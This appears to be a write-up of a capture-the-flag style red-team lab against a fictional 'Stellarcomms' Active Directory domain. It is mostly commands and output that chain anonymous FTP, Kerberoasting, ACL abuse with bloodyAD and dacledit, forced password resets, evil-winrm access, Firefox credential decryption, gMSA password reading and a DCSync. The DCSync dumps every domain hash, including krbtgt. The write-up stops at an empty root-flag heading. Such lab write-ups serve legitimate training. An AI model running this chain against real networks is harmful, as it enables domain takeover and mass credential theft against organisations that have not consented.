








# Stellarcomms


## **Objective / Scope**

Stellar Communications, a regional telecommunications provider, has retained the Hack Smarter Red Team to conduct a covert internal network penetration test. The client is concerned about the resilience of their internal Active Directory infrastructure against insider threats and compromised VPN endpoints.

Your objective is to simulate a compromised remote worker, pivot through the internal network, and demonstrate the ability to compromise high-value targets.

### **Initial Access**

Our initial access team has successfully established a VPN tunnel into the environment. We have identified a valid username, likely belonging to a new hire or junior staff member.

- **Valid User:**
    - **Username:** `junior.analyst`
    - **Password:**  `Galaxy123!`

## Enumeration

Document all enumeration don on the host to find vulnerable and attack paths

```bash
nmap -Pn -sCV -sC -p- --min-rate=200 10.1.42.165 -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-14 13:30 EDT
Nmap scan report for 10.1.42.165
Host is up (0.085s latency).
Not shown: 65505 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 09-12-25  12:29PM       <DIR>          Docs
| 09-10-25  12:15PM       <DIR>          IT
|_09-10-25  12:44PM       <DIR>          Pics
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-14 17:32:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: stellarcomms.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: stellarcomms.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-14T17:33:05+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: STELLARCOMMS
|   NetBIOS_Domain_Name: STELLARCOMMS
|   NetBIOS_Computer_Name: DC-STELLAR
|   DNS_Domain_Name: stellarcomms.local
|   DNS_Computer_Name: DC-STELLAR.stellarcomms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-05-14T17:32:51+00:00
| ssl-cert: Subject: commonName=DC-STELLAR.stellarcomms.local
| Not valid before: 2026-01-14T20:49:24
|_Not valid after:  2026-07-16T20:49:24
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
49728/tcp open  msrpc         Microsoft Windows RPC
49886/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC-STELLAR; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-05-14T17:32:53
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.79 seconds
[ble: elapsed 135.811s (CPU 9.2%)] nmap -Pn -sCV -sC -p- --min-rate=200 10.1.42.165 -T4

```
Adding device name to `/etc/hosts/`
```bash
echo "10.1.42.165 stellarcomms.local STELLARCOMMS DC-STELLAR.stellarcomms.local" | sudo tee -a /etc/hosts
```

### FTP

Looking at the nmap result. Anonymous login is allowed.

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 09-12-25  12:29PM       <DIR>          Docs
| 09-10-25  12:15PM       <DIR>          IT
|_09-10-25  12:44PM       <DIR>          Pics
| ftp-syst: 
|_  SYST: Windows_NT
```

`Confirmed`

```bash
ftp stellarcomms.local
Connected to stellarcomms.local.
220 Microsoft FTP Service
Name (stellarcomms.local:ha5hcat): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49971|)
125 Data connection already open; Transfer starting.
09-12-25  12:29PM       <DIR>          Docs
09-10-25  12:15PM       <DIR>          IT
09-10-25  12:44PM       <DIR>          Pics

```

Found a `default password` on the `Stellar_UserGuide.pdf`



Also on `Transmission_Schedule.txt` there is a note. A `portal.stellarcomms.local`

```bash
[2025-09-10]
LEO Sat-1 Transmission Window: 04:30 - 06:00 UTC
LEO Sat-2 Transmission Window: 14:15 - 15:45 UTC
Note: Always authenticate to portal.stellarcomms.local before uplink.
```

### Kerberoastable User/Service

```bash
nxc ldap stellarcomms.local -u junior.analyst -p 'Galaxy123!' --kerberoasting output.txt
LDAP        10.1.42.165     389    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.42.165     389    DC-STELLAR       [+] stellarcomms.local\junior.analyst:Galaxy123! 
LDAP        10.1.42.165     389    DC-STELLAR       [*] Skipping disabled account: krbtgt
LDAP        10.1.42.165     389    DC-STELLAR       [*] Total of records returned 1
LDAP        10.1.42.165     389    DC-STELLAR       [*] sAMAccountName: SATLINK-SERVICE$, memberOf: [], pwdLastSet: 2025-09-11 15:34:46.163350, lastLogon: <never>
LDAP        10.1.42.165     389    DC-STELLAR       $krb5tgs$18$hostsatlink-service.stellarcomms.local$STELLARCOMMS.LOCAL$*stellarcomms.local\SATLINK-SERVICE$*$8671230f3fa96b2a360232a8$b66732b91fcdab493cf27747b63d55d3ae44baa4fd09ef18f7bfb62d676549f18756f2e52e4bd3e3f19d1663ddd9aa6229ab4c51018d4007132f1c8352e593024762d19ce93a376efa..................f3c6268cbd108bc0ef126f97231b0a8f353413e7a3b288807842f78d6fcdcfc961432775c93107544ca332f491cd948a0b290da2e88ef1115dd3a11e86f829131

```

### Bloodhound

```bash
nxc ldap 10.1.42.165 -u junior.analyst -p 'Galaxy123!' --bloodhound --dns-server 10.1.42.165 --dns-tcp -c all
LDAP        10.1.42.165     389    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.42.165     389    DC-STELLAR       [+] stellarcomms.local\junior.analyst:Galaxy123! 
LDAP        10.1.42.165     389    DC-STELLAR       Resolved collection methods: dcom, acl, session, localadmin, objectprops, trusts, psremote, group, rdp, container
LDAP        10.1.42.165     389    DC-STELLAR       Done in 0M 16S
LDAP        10.1.42.165     389    DC-STELLAR       Compressing output into /home/ha5hcat/.nxc/logs/DC-STELLAR_10.1.42.165_2026-05-14_181336_bloodhound.zip

```

`junior.analyst` has `WriteOwner` over `Stellarops-control`



So in turn, we can now effectively `ForceChangePassword` on the `ops.controller` user.



#### Change Ownership

```bash
bloodyAD --host 10.1.42.165 -d 'stellacomms.local' -u 'junior.analyst' -p 'Galaxy123!' set owner 'stellarops-control' 'junior.analyst'
[+] Old owner S-1-5-21-1085439814-3345093241-3808503133-512 is now replaced by junior.analyst on stellarops-control

```

#### Modifying `Addmember` permissions

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'junior.analyst' -target-dn 'CN=STELLAROPS-CONTROL,CN=USERS,DC=STELLARCOMMS,DC=LOCAL' 'stellarcomms.local'/'junior.analyst':'Galaxy123!'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20260514-191735.bak
[*] DACL modified successfully!

```

#### Adding `GenericAll` to junior.analyst user

```bash
bloodyAD --host DC-STELLAR.stellarcomms.local -d stellarcomms.local -u 'junior.analyst' -p 'Galaxy123!' add genericAll 'stellarops-control' "junior.analyst"
[+] junior.analyst has now GenericAll on stellarops-control
```

#### Add Member to Group

```bash
bloodyAD --host 10.1.42.165 -d 'stellacomms.local' -u 'junior.analyst' -p 'Galaxy123!' add groupMember 'stellarops-control' 'junior.analyst'
[+] junior.analyst added to stellarops-control
```

The updated graph on `Bloodhound` after major updates above.



#### Force Password Change

Changed the `Ops-controller` password

```bash
bloodyAD --host 10.1.42.165 -d 'stellarcomms' -u 'junior.analyst' -p 'Galaxy123!' set password 'ops.controller' 'Valentino1984@'
[+] Password changed successfully!
```

`OPS-CONTROLLER` is a member of `Remote Management Users` so I should be able to remote in.



## Foothold

Research findings, data insights, and key considerations and document how you got a foothold on the vulnerable box

```bash
evil-winrm -i stellarcomms.local -u 'ops.controller' -p 'Valentino1984@'
                                        
*Evil-WinRM* PS C:\Users\ops.controller> cd Desktop
*Evil-WinRM* PS C:\Users\ops.controller\Desktop> dir

    Directory: C:\Users\ops.controller\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/10/2025  11:22 AM       56063872 Firefox Setup 91.0esr.exe
-a----        9/10/2025  10:49 AM           1419 user.txt

*Evil-WinRM* PS C:\Users\ops.controller\Desktop> type user.txt

FLAG[Stellar_Link_Orbit_442km]

⠀⠀⠀⣤⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣤⠀⠀⠀⠀⠀⠀⠀⠀⣠⣦⡀⠀⠀⠀
⠀⠀⠛⣿⠛⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⣿⠛⠀⠀⠀⠀⠀⡀⠺⣿⣿⠟⢀⡀⠀
⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⣿⣦⠈⠁⣴⣿⣿⡦
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣦⡈⠻⠟⢁⣴⣦⡈⠻⠋⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⡀⠺⣿⣿⠟⢀⡀⠻⣿⡿⠋⠀⠀⠀
⠀⣠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣶⡿⠿⣿⣦⡈⠁⣴⣿⣿⡦⠈⠀⠀⠀⠀⠀
⠲⣿⠷⠂⠀⠀⠀⠀⠀⠀⢀⣴⡿⠋⣠⣦⡈⠻⣿⣦⡈⠻⠋⠀⠀⠀⠀⠀⠀⠀
⠀⠈⠀⠀⠀⠀⠀⠀⠀⠰⣿⣿⡀⠺⣿⣿⣿⡦⠈⣻⣿⡦⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⣠⣦⡈⠻⣿⣦⡈⠻⠋⣠⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⡀⠺⣿⣿⠟⢀⡈⠻⣿⣶⣾⡿⠋⣠⣦⡀⠀⢀⣠⣤⣀⡀⠀⠀
⠀⠀⠀⠀⣠⣾⣿⣦⠈⠁⣴⣿⣿⡦⠈⠛⠋⠀⠀⠈⠛⢁⣴⣿⣿⡿⠋⠀⠀⠀
⠀⠀⣠⣦⡈⠻⠟⢁⣴⣦⡈⠻⠋⠀⠀⠀⠀⠀⠀⠀⣴⣿⣿⣿⣏⠀⠀⠀⠀⠀
⠀⠺⣿⣿⠟⢀⡀⠻⣿⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠰⣿⡿⠛⠁⠙⣷⣶⣦⠀⠀
⠀⠀⠈⠁⣴⣿⣿⡦⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠋⠀⠀⠀⠀⠻⠿⠟⠀⠀
⠀⠀⠀⠀⠈⠻⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀

```

## Privilege Escalation

Document how you were able to more laterally and gain a higher privilege

### Stored FireFox credentials

```bash
cd C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles\v8mn7ijj.default-esr
```

Most often, FireFox stores encrypted password in both `key4.db` and `logins.json`

```bash
-a----        9/10/2025  11:25 AM            683 handlers.json
-a----        9/10/2025  11:29 AM         294912 key4.db
-a----        9/10/2025  11:29 AM            671 logins.json
-a----        9/10/2025  11:28 AM              0 parent.lock
-a----        9/10/2025  12:04 PM          98304 permissions.sqlite
-a----    
```

`Download` both files to your local machine 

```bash
firepwd git:(master) ✗ python3 firepwd-ng.py -d ~/HSM/StellarComms/       
[INFO] - Reading key4-db: verifying master_password
	[!] Master password is correct.
[INFO] - Reading key4-db: obtaining master_key
	[!] Decrypted master_key : 49b0d9e39220e6ece5254561abad4ca4b07f5d709bae863e0808080808080808

[INFO] - Decrypted 1 logins

  URL: http://portal.stellarcomms.local
  User: astro.researcher
  Pass: Cosmos@42

```

The `astro.researcher` does have `WriteDacl` over the `Eng.payload` user.



A number of attack paths can be used to exploit the `dacl` permissions

- Force Change Password
- Targeted Kerberoasting
- Shadow Credentials attack
- GenericAll user permissions

```bash
impacket-dacledit stellarcomms.local/astro.researcher:Cosmos@42 -action write -rights FullControl -target eng.payload -principal astro.researcher
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20260604-221945.bak
[*] DACL modified successfully!
```

### Password Change

```bash
net rpc password "eng.payload" "Valentino1@" -U "stellarcomms.local/astro.researcher"%"Cosmos@42" -S "DC-stellar.stellarcomms.local"
```

### ReadGMSAPassword

`Eng.Payload` has an `OutBound Object Control` over `Satlink-Services`



I will use `netexec` to dump the `GMSA` password for the `Satlink-services` user.

```bash
nxc ldap stellarcomms -u eng.payload -p Valentino1@ --gmsa
LDAP        10.1.42.165     389    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.42.165     389    DC-STELLAR       [+] stellarcomms.local\eng.payload:Valentino1@ 
LDAP        10.1.42.165     389    DC-STELLAR       [*] Getting GMSA Passwords
LDAP        10.1.42.165     389    DC-STELLAR       Account: SATLINK-SERVICE$     NTLM: fea90d4bfa8bcf47b15e147fdf21f701     PrincipalsAllowedToReadPassword: ['eng.payload', 'SATLINK-SERVICE$']
LDAP        10.1.42.165     389    DC-STELLAR       Account: SATLINK-SERVICE$     aes128-cts-hmac-sha1-96: f61e6d04eec17d73845ac1270678825f
LDAP        10.1.42.165     389    DC-STELLAR       Account: SATLINK-SERVICE$     aes256-cts-hmac-sha1-96: d8ce5fe80c9dd04b6673b2439bf53cb15399098b1a1840d5a7530f88d4413435
```

With the NTLM hash of the `satlink-services` found, I can do a `DCSync` on the Domain Controller (Secret dump)



```bash
impacket-secretsdump 'stellarcomms.local'/'satlink-service$'@10.1.42.165 -hashes 'aad3b435b51404eeaad3b435b51404ee':'fea90d4bfa8bcf47b15e147fdf21f701' -dc-ip DC-STELLAR.stellarcomms.local
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3a97bfa75ebed92165ea2d67cd21002:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a71b2f34ef6bf1c3a1d748eeea2616ec:::
stellarcomms.local\junior.analyst:1103:aad3b435b51404eeaad3b435b51404ee:5944e69e5f2c6dcffcb218e0b638aeaa:::
stellarcomms.local\ops.controller:1104:aad3b435b51404eeaad3b435b51404ee:eb7a9b8f98454a767cc164c52000d3de:::
stellarcomms.local\astro.researcher:1105:aad3b435b51404eeaad3b435b51404ee:4ff610019b56e453b3c476cb34053a99:::
stellarcomms.local\eng.payload:1106:aad3b435b51404eeaad3b435b51404ee:8198a0b3f22a084be8867cf6b50dd24a:::
DC-STELLAR$:1000:aad3b435b51404eeaad3b435b51404ee:6e897cf5253d4bebc35e9863d28529bf:::
SATLINK-SERVICE$:1108:aad3b435b51404eeaad3b435b51404ee:fea90d4bfa8bcf47b15e147fdf21f701:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:bfaf1e64a09cd38cf5f61c308386793e79b354fa338079da920e25e9245de6cb
Administrator:aes128-cts-hmac-sha1-96:03971364600219dc3305f9a37c7d7388
Administrator:des-cbc-md5:f7014cc7e9abbf2a
krbtgt:aes256-cts-hmac-sha1-96:f7bb4a22571764def7d09f40c3c0049cf345b30d1ee939c38caded287969cf96
krbtgt:aes128-cts-hmac-sha1-96:c39955ef6dbc9e5df8538eeef6c84670
krbtgt:des-cbc-md5:4c16bfb6a79bbff2
stellarcomms.local\junior.analyst:aes256-cts-hmac-sha1-96:44baf95a1b4b56eeab90b2f8e20f24e706f33beb0b9c6219fcd1ef63b69c15ca
stellarcomms.local\junior.analyst:aes128-cts-hmac-sha1-96:f68f7da5afc1611a334316010f4b2145
stellarcomms.local\junior.analyst:des-cbc-md5:3d67cd266e2a9e31
stellarcomms.local\ops.controller:aes256-cts-hmac-sha1-96:1dbd69d80b38e30e9c1abdb368e000860375b667cacc30af0102441c1d478fb1
stellarcomms.local\ops.controller:aes128-cts-hmac-sha1-96:d3ebf2e7c17a5d4fc996251e7740fe58
stellarcomms.local\ops.controller:des-cbc-md5:9df2d3b0982034a7
stellarcomms.local\astro.researcher:aes256-cts-hmac-sha1-96:cee970e6e9f45ffde1ee3a220d9ff7f00f6c9e8fddf2d81f9871ecbd02da3d64
stellarcomms.local\astro.researcher:aes128-cts-hmac-sha1-96:8b14ae2bddc8f12a4052376c0efc2e0b
stellarcomms.local\astro.researcher:des-cbc-md5:195b1c9b3437e3c8
stellarcomms.local\eng.payload:aes256-cts-hmac-sha1-96:508aa38f0cad3c71436638d238b6cc552615ef75e577be4bdf69b02d70f124ee
stellarcomms.local\eng.payload:aes128-cts-hmac-sha1-96:8539a81a50fae2aadabb738c76e3bafd
stellarcomms.local\eng.payload:des-cbc-md5:e5ec315e5b2c7ffe
DC-STELLAR$:aes256-cts-hmac-sha1-96:fed7994e4d2352bf77a44964d616af9bb4767ad451e6c053e7e8bae0010e4931
DC-STELLAR$:aes128-cts-hmac-sha1-96:8e0a6befeb8a6500fc5d2ac29c7a058c
DC-STELLAR$:des-cbc-md5:204cb916768ace29
SATLINK-SERVICE$:aes256-cts-hmac-sha1-96:d8ce5fe80c9dd04b6673b2439bf53cb15399098b1a1840d5a7530f88d4413435
SATLINK-SERVICE$:aes128-cts-hmac-sha1-96:f61e6d04eec17d73845ac1270678825f
SATLINK-SERVICE$:des-cbc-md5:f4bf0dae7a7aec97
[*] Cleaning up... 

```

### Root flag

```bash
